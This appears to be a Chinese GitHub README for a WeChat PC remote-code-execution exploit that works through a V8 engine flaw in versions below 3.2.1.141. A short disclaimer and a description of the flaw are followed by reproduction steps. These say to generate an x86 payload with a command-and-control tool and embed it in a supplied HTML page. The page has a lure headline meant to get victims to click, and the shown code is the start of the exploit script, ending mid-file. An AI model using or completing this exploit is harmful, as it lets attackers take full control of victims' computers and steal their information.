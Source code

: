 WX--zeroday



免责声明：本站提供安全工具、程序(方法)可能带有攻击性，仅供安全研究与教学之用，风险自负!
转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
一：漏洞描述
此次微信漏洞由于内置浏览器使用google生态导致，漏洞利用简单，危害性级别高，攻击者向用户在微信上发送一条经过精心构造的恶意链接，PC 版用户只要点击后，shellcode（恶意代码的一种）即会启动，用户的电脑可被完全控制，造成信息泄露、木马中毒等后果。

二: 漏洞影响
根据腾讯安全中心的公告，这是因为 chrome 浏览器使用的 V8 引擎存在安全问题导致的。该漏洞仅影响 windows 版本的 PC 版微信，且只影响 3.2.1.141 以下版本。

三: 漏洞复现
使用cs生成x86的payload放置在需要加载的js中，这里提供一个tools大佬写的html,shellcode中放置生成的x86的c#payload,。（cs如何生成shellcode此处不演示）

```python
<head>

<meta http-equiv="Content-Type" content="text/html;charset=utf-8">

</head>

<h1>来，宝，给你看个好东西</h1>

<script>
ENABLE_LOG = true;

IN_WORKER = true;



// run calc and hang in a loop

var shellcode = [];



function print(data) {

}





var not_optimised_out = 0;

var target_function = (function (value) {

    if (value == 0xdecaf0) {

        not_optimised_out += 1;

    }

    not_optimised_out += 1;

    not_optimised_out |= 0xff;

    not_optimised_out *= 12;

});


```